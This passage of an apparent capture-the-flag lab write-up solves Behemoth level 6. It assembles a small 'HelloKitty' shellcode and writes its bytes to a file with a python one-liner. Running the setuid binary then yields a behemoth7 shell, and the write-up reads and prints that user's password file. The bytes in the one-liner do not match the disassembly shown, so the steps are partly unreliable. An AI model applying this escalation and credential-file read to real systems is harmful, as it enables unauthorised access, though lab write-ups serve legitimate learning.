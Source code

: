 ```nasm

string:
	call code
	db "HelloKitty"
``` 

Then, assembly it, extract it and put it in a file called ***shellcode.txt* :

```bash
behemoth6@behemoth:/behemoth$ cd /tmp/
behemoth6@behemoth:/tmp$ mkdir barfoo
behemoth6@behemoth:/tmp$ cd barfoo
behemoth6@behemoth:/tmp/barfoo$ nasm HelloKitty.asm
behemoth6@behemoth:/tmp/barfoo$ ndisasm  -b32 HelloKitty
00000000  EB13              jmp short 0x15
00000002  59                pop ecx
00000003  31C0              xor eax,eax
00000005  B004              mov al,0x4
00000007  31DB              xor ebx,ebx
00000009  43                inc ebx
0000000A  31D2              xor edx,edx
0000000C  B20A              mov dl,0xa
0000000E  CD80              int 0x80
00000010  B001              mov al,0x1
00000012  4B                dec ebx
00000013  CD80              int 0x80
00000015  E8E8FFFFFF        call dword 0x2
0000001A  48                dec eax
0000001B  656C              gs insb
0000001D  6C                insb
0000001E  6F                outsd
0000001F  4B                dec ebx
00000020  69                db 0x69
00000021  7474              jz 0x97
00000023  79                db 0x79
behemoth6@behemoth:/tmp/barfoo$ (python -c "print '\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x48\x65\x6c\x6c\x6f\x4b\x69\x74\x74\x79'") > /tmp/barfoo/shellcode.txt
behemoth6@behemoth:/tmp/barfoo$ chmod 777 shellcode.txt
```

Finally you can run `behemoth6` :

```bash
behemoth6@behemoth:/tmp/barfoo$ /behemoth/behemoth6
Correct.
$ whoami
behemoth7
$ cat /etc/behemoth_pass/behemoth7
baquoxuafo
``` 

## Behemoth 07 Solution
